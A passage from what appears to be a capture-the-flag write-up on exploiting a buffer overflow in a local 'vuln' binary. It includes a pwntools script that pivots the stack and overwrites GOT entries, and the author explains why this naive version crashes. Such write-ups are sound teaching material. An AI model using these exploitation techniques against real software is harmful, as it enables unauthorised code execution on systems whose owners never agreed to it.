 If we wrote to the earliest possible address `0x404000`, then `rbp = 0x404080`.
But the entries for `stdin`, `stdout`, `stderr` are between our write and `rbp`, and since we don't have a libc leak, we can't overwrite these without corrupting them and causing a crash.

This is why we need to make another write to `0x404080` first, to fill in a fake saved `rbp` and `rip`.

A naive approach to implement the above could look as follows:
```py
#!/usr/bin/python3
from pwn import *

e = ELF("./vuln")
libc = ELF("./libc.so.6")
p = e.process()

leave_ret = e.sym.main+157
fgets_gadget = e.sym.main+68

overflow  = b"\x00".ljust(0x80, b"A")
overflow += p64(0x404080+0x80)
overflow += p64(fgets_gadget)
p.sendline(overflow)

gdb.attach(p)
fake_rbp_rip  = p64(0xdead) + p64(0xbeef)     # blank for now!
fake_rbp_rip  = fake_rbp_rip.ljust(0x80, b"A")
fake_rbp_rip += p64(0x404000+0x80)
fake_rbp_rip += p64(fgets_gadget)
p.sendline(fake_rbp_rip)

overwrite  = p64(e.plt.puts + 6)
overwrite += p64(e.plt.puts)        # strlen@GOT
overwrite += p64(e.plt.printf + 6)
overwrite += p64(e.plt.fgets + 6)

p.sendline(overwrite)
p.interactive()
```
This will fail for another reason (which isn't due to my incompetence (hopefully!)), which is easier to see in gdb.

Here we get to the point where we're about to overwrite the `GOT` with fgets, but see something interesting. Since we've done multiple `leave`s, we've stack pivoted to the writable region. This on its own isn't a huge deal, but since it's so close to all the important addresses in the `GOT`, there's a good chance that the stack usage for the call to `fgets` will clobber them.